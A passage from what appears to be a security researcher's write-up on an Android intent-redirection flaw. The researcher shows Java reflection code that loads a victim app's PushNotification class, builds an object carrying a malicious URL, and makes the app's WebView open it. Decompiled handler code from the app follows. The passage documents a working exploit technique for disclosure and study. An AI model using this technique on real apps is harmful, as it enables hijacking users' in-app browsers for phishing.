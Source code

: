 In the above code, the `getNotification()` method checks the action of the intent and attempts to retrieve the `PushNotification` object from the intent's extras:

- **Line:** `return (PushNotification) (extras != null ? extras.get(EXTRA_NOTIFICATION) : null);`
  
This line casts the `Parcelable` object retrieved from the extras into a `PushNotification`. This is where the challenge arises: the target app expects the `PushNotification` object to be of its own class, so sending a regular `Parcelable` or serializable data from a malicious app will fail.

The solution to this problem was to dynamically load the victim app's `PushNotification` class using a `ClassLoader`. This allowed me to create an object that the victim app would accept as valid.

Here’s how I achieved that using reflection:

```java
// Load the target app's class dynamically
ClassLoader targetClassLoader = getForeignClassLoader("com.victim.app");
Class<?> pushNotificationClass = targetClassLoader.loadClass("com.victim.app.managers.notifications.PushNotification");

// Get the Builder class from PushNotification
Class<?> builderClass = pushNotificationClass.getDeclaredClasses()[0];

// Create an instance of the Builder using reflection
Constructor<?> builderConstructor = builderClass.getConstructor();
Object builderInstance = builderConstructor.newInstance();

// Use reflection to call the builder methods and build the PushNotification object
Method idMethod = builderClass.getDeclaredMethod("id", String.class);
idMethod.invoke(builderInstance, "123");

Method urlMethod = builderClass.getDeclaredMethod("richUrl", String.class);
urlMethod.invoke(builderInstance, MY_MALICIOUS_URL);

// Call the build method to create the PushNotification object
Method buildMethod = builderClass.getDeclaredMethod("build");
Object pushNotification = buildMethod.invoke(builderInstance);
```

By dynamically loading the target app's class and constructing the `PushNotification` object using reflection, I was able to create an object that the victim app accepted as a valid `PushNotification`. This allowed me to pass the malicious intent successfully.

---

#### 4. **`onRichNotification()` in `TransitionFlowManager`**

When the notification is a rich notification, `onRichNotification()` is invoked. This method prepares the WebView to load the URL provided by the malicious intent.

```java
@Override // com.victim.app.managers.notifications.PushNotificationsManager.Callback
public void onRichNotification(@NotNull PushNotification notification) {
    TransitionFlowManager transitionFlowManager = TransitionFlowManager.this;
    Intent createIntentToRichURL = PushNotificationsManager.INSTANCE.createIntentToRichURL(transitionFlowManager, notification);
    
    if (LoginFragment.isLoginActiviyViewed || victimRioMainActivity.isvictimRiosMainRunning) {
        transitionFlowManager.startActivity(createIntentToRichURL);
        transitionFlowManager.finish();
    } else {
        transitionFlowManager.D.launch(createIntentToRichURL);
    }
}
```

---